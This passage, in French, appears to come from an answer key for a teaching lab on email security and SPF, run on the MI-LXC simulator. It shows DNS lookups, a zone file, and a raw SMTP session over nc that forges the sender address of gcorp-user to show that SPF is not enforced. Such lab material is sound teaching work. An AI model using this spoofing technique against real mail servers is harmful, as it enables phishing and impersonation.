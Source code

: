On peut récupérer son adresse IP avec les commande suivante : 

```
root@buster$ ./mi-lxc.py attach isp-a-hacker 
root@mi-isp-a-hacker$ dig +short gcorp.milxc MX
10 smtp.gcorp.milxc.
root@mi-isp-a-hacker$ dig +short smtp.gcorp.milxc
dmz.gcorp.milxc.
100.84.1.2
```

On peut aussi répondre à cette question en allant fouiller dans la configuration DNS de **gcorp-infra** :

```
root@buster$ ./mi-lxc.py attach gcorp-infra 
root@mi-gcorp-infra$ cat /etc/nsd/gcorp.milxc.zone 
$TTL	86400
$ORIGIN gcorp.milxc.
@  1D  IN  SOA ns.gcorp.milxc. hostmaster.gcorp.milxc. (
			      2002022401 ; serial
			      3H ; refresh
			      15 ; retry
			      1w ; expire
			      3h ; nxdomain ttl
			     )
       IN NS       ns.gcorp.milxc.
       IN MX    10 smtp.gcorp.milxc.
       IN TXT   "v=spf1 mx -all"
ns     IN A     100.84.1.2
ns	   IN AAAA  2001:db8:84:1::2
dmz    IN A     100.84.1.2
dmz	   IN AAAA	2001:db8:84:1::2
smtp   IN CNAME 	dmz
imap   IN CNAME 	dmz
```

Le fichier du TP pourrait être légèrement différent de ce dernier. 

Cette question permet aux étudiants de commencer à comprendre SPF et à regarder comment on trouve une politique et comment elles peuvent être formées. Ce TP n'est pas sur les différentes fonctionnalités de SPF qui sont plus nombreuses que ce que l'on va utiliser dans la suite mais c'est déjà une bonne première approche pour comprendre en quoi ca peut servir. 

**Question 8 :** Montrez qu'un utilisateur extérieur peut toujours usurper l'adresse mail de **gcorp-user**.

On a vu à la question précédente que une politique SPF était bien implémenté pour **gcorp.milxc**. Pour autant, cette dernière n'est pas activée et correctement configurée avec postfix. 

Pour vérifier cela, il suffit de reproduire les exemples précédent mais cette fois ci en usurpant l'adresse mail de **gcorp-user**.

```
root@buster$ ./mi-lxc.py attach isp-a-hacker
root@isp-a-hacker$ nc smtp.isp-a.milxc 587
220 mi-isp-a-infra ESMTP Postfix (Debian/GNU)
HELO infra.isp-a.milxc
250 mi-isp-a-infra
MAIL FROM:<user@gcorp.milxc>       
250 2.1.0 Ok
RCPT TO:<admin@target.milxc>
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
Subject : Usurpation d'identité
On a bien Hacker qui se fait passer pour User auprès d'Admin
.
250 2.0.0 Ok: queued as A8EFA87C6E
```